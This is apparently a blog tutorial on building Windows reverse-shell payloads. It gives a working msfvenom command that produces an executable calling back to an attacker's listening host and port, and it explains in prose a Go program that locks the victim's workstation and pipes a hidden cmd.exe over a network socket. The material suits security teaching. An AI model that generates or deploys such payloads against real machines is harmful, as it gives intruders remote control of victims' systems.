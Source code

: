 Msfvenom includes a number of parameters yet, we’re only going to focus on a few:

* CPU architecture
* Platform (as in, Operating System or OS)
* Payload
* Listening host and port
* Executable format
* Output filename

Specifying incorrect arguments (input) for our CPU architecture, platform, or executable format could cause our exploit to fail. Therefore, it is imperative we accurately identify our target machine. Execute the command sentence below to generate a quick and hasty Microsoft Windows exploit using Msfvenom (the \ symbols are totally optional and only serve to make this blog post more readable).

```bash
# how to create a hasty exploit with Msfvenom
msfvenom \
 --arch x86 \
 --platform windows \
 --payload windows/shell_reverse_tcp \
 LHOST=192.168.1.8 \
 LPORT=4444 \
 -f exe \
 -o hackmefast.exe
```

![hackmefast.gif]({{ site.url }}{{ site.baseurl }}/assets/Hasty/hackmefast.gif)

## How to Write a Deliberate Exploit in Go

Go is a general-purpose programming language developed by Google. It’s easy to read, has an “intelligent” cross-compiler (gives helpful warning/error messages as to why your code sucks), and doesn’t use a preprocessor (something that could influence how your code runs). To begin developing Go code, open a text-editor in a terminal on your Kali VM (I like to use Vim).
```bash
# how to open a text-editor in a terminal
vim hackmeslow.go
```
Next, mirror the code below. Our source file begins by telling the Go compiler we want a self-contained program, or a program that carries everything it needs to execute (a.k.a “statically linked,” read this for more info). We then import packages that enable our program to communicate on the network and control the OS. Within our `main()` function, we have three tasks we’re aiming to accomplish: lock the victim’s workstation, create a network socket, and send a Reverse Shell across it. A Reverse Shell “forces an infected machine to call the attacker and offer-up shell access to it’s operating system.” In contrast, traditional shell access requires the attacker to call the would-be infected machine and authenticate with valid credentials. A Reverse Shell is also helpful in bypassing inbound firewall rules.

To achieve our objectives, we select `rundll32.exe` and `user32.dll`, LockWorkStation as the first command sentence we want executed. For the curious, `rundll32.exe` is a Microsoft Windows program used for loading software libraries (like `user32.dll`) and accessing functions within them (such as LockWorkStation). We then leverage a Go function called `net.Dial()` to create a network socket, passing any errors it generates to the `_` variable. This variable is also known as the “Blank Identifer” and helps satisfy some of the compiler’s pre-compilation checks. Next, we identify cmd.exe as the second command we wanted executed. After enabling the HideWindow attribute, we then point all input, output, and error “pipes” from cmd.exe to our socket. Finally, we ask for our payloads (locking the workstation and providing us remote access) to be ran.
